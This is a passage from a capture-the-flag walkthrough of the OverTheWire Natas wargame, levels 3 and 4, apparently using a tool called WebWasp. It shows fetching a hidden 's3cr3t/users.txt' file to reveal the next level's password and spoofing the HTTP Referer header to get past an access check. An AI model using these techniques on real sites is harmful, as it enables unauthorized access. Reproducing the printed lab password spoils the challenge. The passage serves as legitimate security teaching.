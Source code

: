 And run a find for links...

```
> response find --links
[🐝] Find results:
-- truncated --
/
users.txt
```

Another `users.txt` file within the `s3cr3t` directory! Ours for the taking:

```
> get http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
```
```
> response show -t
natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

Save the password in a variable called `pass4` and we're done!

## Level 4

Same process as before. Let's check out the source for this level:

```HTML
<html>
<head>
-- truncated --
</head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Hmm. This time we were disallowed access because we weren't coming from the right link...

What this is referencing is the `referer` tag within the header of an HTTP request.

WebWasp makes setting these header fields easy, as we've already seen with the `auth-user` and `auth-pass` fields.

Let's set the `referer` field the same way:

```
> headers set referer http://natas5.natas.labs.overthewire.org/
[🐝] Set header field:
   referer : 'http://natas5.natas.labs.overthewire.org/'
```
